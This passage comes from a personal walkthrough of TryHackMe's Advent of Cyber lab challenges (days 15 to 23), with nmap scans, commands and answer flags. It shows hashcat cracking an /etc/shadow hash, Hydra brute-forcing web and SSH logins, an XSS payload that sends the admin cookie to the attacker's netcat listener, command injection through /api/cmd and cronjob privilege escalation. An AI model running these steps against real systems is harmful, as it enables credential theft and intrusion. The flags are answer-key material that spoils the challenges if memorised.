22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 77:61:7e:5a:1b:78:31:b7:22:cd:17:85:26:01:89:d9 (RSA)
|   256 56:76:ff:8b:dc:b6:28:e5:73:5a:ba:d8:64:cc:c9:38 (ECDSA)
|_  256 3e:8b:af:0f:92:6c:06:81:78:2f:2d:33:be:15:82:9e (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title: Public Notes
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/2%OT=22%CT=1%CU=30431%PV=Y%DS=2%DC=T%G=Y%TM=5F77723
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.78 ms 10.8.0.1
2   31.06 ms 10.10.89.45

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.91 seconds
```


`[-] Book holiday to Hawaii`

`Hawaii`

2. Read /etc/shadow and crack Charlies password.



```html
<p id="note-1">
  root:*:18152:0:99999:7:::<br />
  daemon:*:18152:0:99999:7:::<br />
  bin:*:18152:0:99999:7:::<br />
  sys:*:18152:0:99999:7:::<br />
  sync:*:18152:0:99999:7:::<br />
  games:*:18152:0:99999:7:::<br />
  man:*:18152:0:99999:7:::<br />
  lp:*:18152:0:99999:7:::<br />
  mail:*:18152:0:99999:7:::<br />
  news:*:18152:0:99999:7:::<br />
  uucp:*:18152:0:99999:7:::<br />
  proxy:*:18152:0:99999:7:::<br />
  www-data:*:18152:0:99999:7:::<br />
  backup:*:18152:0:99999:7:::<br />
  list:*:18152:0:99999:7:::<br />
  irc:*:18152:0:99999:7:::<br />
  gnats:*:18152:0:99999:7:::<br />
  nobody:*:18152:0:99999:7:::<br />
  systemd-timesync:*:18152:0:99999:7:::<br />
  systemd-network:*:18152:0:99999:7:::<br />
  systemd-resolve:*:18152:0:99999:7:::<br />
  systemd-bus-proxy:*:18152:0:99999:7:::<br />
  syslog:*:18152:0:99999:7:::<br />
  _apt:*:18152:0:99999:7:::<br />
  lxd:*:18152:0:99999:7:::<br />
  messagebus:*:18152:0:99999:7:::<br />
  uuidd:*:18152:0:99999:7:::<br />
  dnsmasq:*:18152:0:99999:7:::<br />
  sshd:*:18152:0:99999:7:::<br />
  pollinate:*:18152:0:99999:7:::<br />
  ubuntu:!:18243:0:99999:7:::<br />
  harlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::<br />
</p>
```

`hashcat -m1800 -a0 --force --runtime=600 -o harlie_decrypt.hash harlie.hsh `

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hashcat -m1800 -a0 --force --runtime=600 -o harlie_decrypt.hash harlie.hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=16 -D KERN_TYPE=1800 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385


Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Fri Oct  2 20:41:58 2020 (4 secs)
Time.Estimated...: Fri Oct  2 20:42:02 2020 (0 secs; Runtime limited: 9 mins, 56 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      140 H/s (10.33ms) @ Accel:256 Loops:64 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 512/14344385 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: 123456 -> letmein

Started: Fri Oct  2 20:41:39 2020
Stopped: Fri Oct  2 20:42:03 2020

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat harlie_decrypt.hash
$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1
kali@kali:~/CTFs/tryhackme/Advent of Cyber$
```

3. What is flag1.txt?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh charlie@10.10.89.45

charlie@ip-10-10-89-45:~$ ls
flag1.txt
charlie@ip-10-10-89-45:~$ cat flag1.txt
THM{4ea2adf842713ad3ce0c1f05ef12256d}
charlie@ip-10-10-89-45:~$
```

## [Day 16] File Confusion

The Christmas monster got access to some files and made a lot of weird changes. Can you help fix these changes?

Use a (python) script to do the following:

- extract all the files in the archives
- extract metadata from the files
- extract text from the files

Use the questions to guide you on how to write the script. Check out the supporting material [here](https://docs.google.com/document/d/13eYEcqpyp3fIAnaDR8PHz6qibBJJwf2Vp5M77KkEKtw/edit#).

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ python day16.py final-final-compressed.zip final-final

```py
#!/usr/bin/python
# -*- coding: utf-8 -*-import sys
import os
import sys
import zipfile
import exiftool
from pprint import pprint

def extract_files(pathfile, pathtoextract):
   extracted = []

   with zipfile.ZipFile(pathfile, 'r') as zip_ref:
      zip_ref.extractall(pathtoextract)

   listOfFiles = os.listdir(pathtoextract)

   for file in listOfFiles:
      absfile = os.path.join(pathtoextract, file)
      (body, ext) = os.path.splitext(absfile)

      if ext == '.zip':
         os.mkdir(body)
         extracted += extract_files(absfile, body)
         os.remove(absfile)
      else:
         extracted.insert(0, absfile)

   return extracted

def count_version(files, version):
   m_count = 0
   with exiftool.ExifTool() as et:
      for file in files:
         metadata = et.get_metadata(file)
         try:
            if metadata['XMP:Version'] == version:
               m_count = m_count + 1
            except:
               continue

   return m_count

def check_password(files):
   for file in files:
      try:
         with open(file, 'r') as reader:
            data = reader.read()
            if 'password' in data:
               print file
            except:
               continue

def main():
   if len(sys.argv) != 3:
      print 'Usage: pythonscript pathfile pathtoextract'
   else:
      pathfile = sys.argv[1]
      pathtoextract = sys.argv[2]

      extracted = extract_files(pathfile, pathtoextract)
      # 1. How many files did you extract(excluding all the .zip files)
      print len(extracted)
      # 2. How many files contain Version: 1.1 in their metadata?
      print count_version(extracted, 1.1)
      # 3. Which file contains the password?
      check_password(extracted)

main()
```

1. How many files did you extract(excluding all the .zip files)

`50`

2. How many files contain Version: 1.1 in their metadata?

`3`

3. Which file contains the password?

`dL6w.txt`

## [Day 17] Hydra-ha-ha-haa

You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

Supporting materials can be found [here](https://blog.tryhackme.com/hydra/).

**This machine will take between 3-4 minutes to boot.**

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.132.190
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 09:08 CEST
Nmap scan report for 10.10.132.190
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 32:af:9f:6e:4a:c4:7f:85:32:d5:b5:9b:f5:8b:8d:72 (RSA)
|   256 c4:01:8c:e7:d3:7a:36:2d:05:e9:92:fe:90:d1:da:ea (ECDSA)
|_  256 83:e4:bf:81:87:a2:2a:f6:aa:91:34:3f:ff:c1:1c:89 (ED25519)
80/tcp open  http    Node.js Express framework
| http-title: Christmas Challenge
|_Requested resource was /login
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=22%CT=1%CU=40221%PV=Y%DS=2%DC=T%G=Y%TM=5F78239
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.03 ms 10.8.0.1
2   35.14 ms 10.10.132.190

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.20 seconds
```

1. Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

- [http://10.10.132.190/login](http://10.10.132.190/login)


`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:39:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.132.190:80/login:username=^USER^&password=^PASS^:incorrect
[STATUS] 1132.00 tries/min, 1132 tries in 00:01h, 14343267 to do in 211:11h, 16 active
[STATUS] 1229.00 tries/min, 3687 tries in 00:03h, 14340712 to do in 194:29h, 16 active
[STATUS] 1209.14 tries/min, 8464 tries in 00:07h, 14335935 to do in 197:37h, 16 active

[80][http-post-form] host: 10.10.132.190   login: molly   password: joyness1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:06:06
```


`THM{2673a7dd116de68e85c48ec0b1f2612e}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190 -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:25:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.132.190:22/
[22][ssh] host: 10.10.132.190   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 09:25:53
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh molly@10.10.132.190

molly@ip-10-10-132-190:~$ ls
flag2.txt
molly@ip-10-10-132-190:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

`THM{c8eeb0468febbadea859baeb33b2541b}`

## [Day 18] ELF JS

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

_P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth._

1. What is the admin's authid cookie value?

- [http://10.10.186.115:3000/login](http://10.10.186.115:3000/login)
- [http://10.10.186.115:3000/home](http://10.10.186.115:3000/home)

`</p><script>console.log("XSS Works")</script><p>`



```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
```

`</p><script>window.location = 'http://10.8.106.222/page?param=' + document.cookie </script><p>`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.8.106.222] from (UNKNOWN) [10.8.106.222] 47828
GET /page?param=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.106.222
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.186.115:3000/home
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.**.**
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```

`2564799a4e6689972f6d9e1c7b406f87065cbf65`

## [Day 19] Commands

Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material [here](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing).

1. What are the contents of the user.txt file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/
christmas monster was here

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /api/cmd</pre>
</body>
</html>

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/find%20%2f%20-name%20"user.txt"
{"stdout":"/home/bestadmin/user.txt\n","stderr":""}

kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl http://10.10.78.88:3000/api/cmd/cat%20home%2fbestadmin%2fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
```

`5W7WkjxBWwhe3RNsWJ3Q`

## [Day 20] Cronjob Privilege Escalation

You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.

There is no supporting material - the only new concept in this challenge is Linux cronjobs. Join our [Discord](https://discord.gg/wvfe3XJ) if you're really struggling.

1. What port is SSH running on?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.163.132
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 13:07 CEST
Nmap scan report for 10.10.163.132
Host is up (0.035s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:74:17:5c:4f:d7:a1:9a:e8:ba:86:cf:2a:fe:65:99 (RSA)
|   256 f1:6d:6f:41:85:06:73:f3:f2:30:fd:b6:6d:f8:4d:33 (ECDSA)
|_  256 7b:e4:f5:0b:92:a1:61:60:bb:84:79:5a:15:e5:3d:7f (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=4567%CT=1%CU=37212%PV=Y%DS=2%DC=T%G=Y%TM=5F785
OS:BC4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%TS=8)SEQ(SP=108%
OS:GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M
OS:508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68D
OS:F%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.88 ms 10.8.0.1
2   33.97 ms 10.10.163.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.08 seconds
```

`4567`

2. Crack sam's password and read flag1.txt

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.132:4567
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 13:10:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.163.132:4567/
[4567][ssh] host: 10.10.163.132   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 13:10:14
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh sam@10.10.163.132 -p 4567
The authenticity of host '[10.10.163.132]:4567 ([10.10.163.132]:4567)' can't be established.
ECDSA key fingerprint is SHA256:/54HkiaVZN46gtAAt5bxFK6rEKyPHEGbkJ1sddd3lpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.163.132]:4567' (ECDSA) to the list of known hosts.
sam@10.10.163.132's password:
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
sam@ip-10-10-163-132:~$ ls
flag1.txt
sam@ip-10-10-163-132:~$ cat flag1.txt
THM{dec4389bc09669650f3479334532aeab}
sam@ip-10-10-163-132:~$
```

`THM{dec4389bc09669650f3479334532aeab}`

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```
sam@ip-10-10-163-132:~$ ls -l /home
total 12
drwxr-xr-x 3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx 2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x 6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
sam@ip-10-10-163-132:~$ ls -l /home/scripts/
total 8
-rwxrwxrwx 1 ubuntu ubuntu 14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root    5 Dec 19  2019 test.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ nano /home/scripts/clean_up.sh
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-----r-- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ cat /home/ubuntu/flag2.txt
THM{b27d33705f97ba2e1f444ec2da5f5f61}
sam@ip-10-10-163-132:~$
```

`THM{b27d33705f97ba2e1f444ec2da5f5f61}`

## [Day 21] Reverse Elf-ineering

McSkidy has never really touched low level languages - this is something they must learn in their quest to defeat the Christmas monster.

Download the archive and apply the command to the following binary files: `chmod +x file-name`

Please note that these files are compiled to be executed on Linux x86-64 systems.

The questions below are regarding the challenge1 binary file.

Read the supporting materials [here](https://drive.google.com/file/d/1maTcdquyqnZCIcJO7jLtt4cNHuRQuK4x/view?usp=sharing).

- [21-Reverse-Elf-ineering](https://www.aldeid.com/wiki/TryHackMe-Advent-of-Cyber/21-Reverse-Elf-ineering)

1. What is the value of local_ch when its corresponding movl instruction is called(first if multiple)?

`1`

2. What is the value of eax when the imull instruction is called?

`6`

3. What is the value of local_4h before eax is set to 0?

`6`

## [Day 22] If Santa, Then Christmas

McSkidy has been faring on well so far with assembly - they got some inside knowledge that the christmas monster is weaponizing if statements. Can they get ahead of the curve?

These programs have been compiled to be executed on Linux x86-64 systems.

Check out the supporting material [here](https://docs.google.com/document/d/1cIHd_YQ_PHhkUPMrEDWAIfQFb9M9ge3OFr22HHaHQOU/edit?usp=sharing).

The questions below relate to the if2 binary.

- [22-If-Santa-Then-Christmas](https://www.aldeid.com/wiki/TryHackMe-Advent-of-Cyber/22-If-Santa-Then-Christmas)

1. what is the value of local_8h before the end of the main function?

`9`

2. what is the value of local_4h before the end of the main function?

`2`

## [Day 23] LapLANd (SQL Injection)

Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?

**This machine may take up to 5 minutes to boot and configure.**

Supporting material available [here](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit?usp=sharing).

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.198.192
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 15:11 CEST
Nmap scan report for 10.10.198.192
Host is up (0.077s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f9:14:0a:5b:19:0c:4a:e9:3a:12:d9:2c:6c:7f:76:d5 (RSA)
|   256 cf:ee:bb:bd:3b:1c:90:0b:a7:bd:79:7c:4f:a2:3e:1e (ECDSA)
|_  256 d7:27:b9:e0:0f:c4:a8:ef:83:20:d1:ae:c2:cb:5a:57 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Welcome to LapLANd!
|_Requested resource was register.php
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=22%CT=1%CU=41795%PV=Y%DS=2%DC=T%G=Y%TM=5F7878F
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
